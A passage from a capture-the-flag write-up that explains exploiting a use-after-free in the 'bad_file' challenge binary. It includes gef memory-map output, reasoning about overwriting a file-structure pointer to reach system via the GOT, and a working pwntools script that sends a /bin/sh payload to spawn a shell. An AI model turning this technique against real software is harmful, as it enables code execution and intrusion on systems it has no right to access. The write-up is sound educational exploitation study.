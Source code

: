 ```
$1 = 0x400000
gef➤  vmmap
Start              End                Offset             Perm Path
0x0000000000400000 0x0000000000401000 0x0000000000000000 r-x /Hackery/swamp/bad_file/bad_file
0x0000000000600000 0x0000000000601000 0x0000000000000000 r-- /Hackery/swamp/bad_file/bad_file
0x0000000000601000 0x0000000000602000 0x0000000000001000 rw- /Hackery/swamp/bad_file/bad_file

.   .   .
```

Here we can see that the value we overwrote at offset `0xa0` to be `0x400000` is causing a crash (the reason why it is an address, is because earlier that value is dereferenced, so if it isn't an address it would cause a crash). Here it is running the `cmpxchg` instruction which compares the two operands, and if they aren't equal the contents of the second argument are moved into the first. The issue here is that the memory region `0x400000` is in is not writeable, so it crashes when it tries to write to it. To solve this I just looked through the memory region starting at `0x601000` for an eight byte segment that was equal to `0x0` (since without our hacking that's what the value is). Since there isn't `pie` I know the address before the binary runs, and since the region is writeable I can write to it no problem.

So with that, it just leaves us with our final problem. What value will we overwrite the pointer to an instruction pointer with to get code execution. There is a `hidden_alleyway` function which would print the flag, however due to the lack of infoleaks I couldn't find a way to get a pointer to it's address. Luckily for us the GOT table has system in it. So to get a shell I just overwrote the pointer at offset `0xd8` with the got address of `system - 0x40` (we need the `-0x40` to counter the `+0x40`). Then when it dereferences that pointer, and jumps to an instruction pointer it will call system.

The last thing we need is to pass the argument `/bin/sh` to the function `system` (which takes a char pointer as an argument). Luckily for us the first argument is passed in the `rdi` register, which at the time of the jump is a pointer to the freed `heapPtr` (and due to the overlap, `stream` too). So we just have to set the first eight bytes of our input equal to `/bin/sh\x00` (we need the null byte in there to separate it from the rest of the input) to pass the argument `/bin/sh` to system.

### Exploit Code

With all of this, we can write the exploit (ran on Ubuntu 16.04):

```
from pwn import *

# Establish the target
target = process('./bad_file', env={"LD_PRELOAD":"./libc6.so"})
#gdb.attach(target)

# Get through the initial prompt and temp_name functions
# Make sure to go the UAF route
target.sendline("1")
target.sendline("15935728")

# Make the payload
payload = "/bin/sh\x00"
payload += "0"*0x80
payload += p64(0x6010b0)
payload += "1"*0x48
payload += p64(0x601038 - 0x40)

# Wait for it to prompt us for a new name
print target.recvuntil("new name.")

# Send the exploit
target.send(payload)

# Drop to an interactive shell to use the shell
target.interactive()
```